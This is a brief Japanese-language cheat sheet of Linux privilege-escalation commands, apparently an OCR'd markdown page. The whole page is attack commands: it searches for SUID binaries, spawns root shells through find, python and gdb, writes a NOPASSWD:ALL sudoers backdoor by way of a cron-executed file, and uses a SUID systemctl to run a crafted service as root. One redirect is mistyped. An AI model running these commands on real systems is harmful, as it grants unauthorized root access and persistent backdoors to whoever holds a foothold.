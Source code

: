 # Using Shell Command

## findで権限昇格

``` shell
    find / -type f -perm -u=s 2/dev/null

    find . -exec /bin/bash -p \; -quit
```

## pythonで権限昇格

``` shell
    python -c 'import os;os.system("/bin/sh -p")'
```

## sudoers

``` shell
    echo 'echo "vuln ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > <cronに使用されているファイル>
```

## gdbで権限昇格

``` shell
    # gdb起動
    gdb
    help shell
    # shell実行でroot権限でshellを実行できる。
    shell
```

## systemctlで権限昇格

``` shell
    #install -mでモード指定
    sudo install -m =xs $(which systemctl) .
    #serviceの作成
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "id > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    #リンクの生成
    ./systemctl link $TF
    #サービスの有効化
    ./systemctl enable --now $TF
```
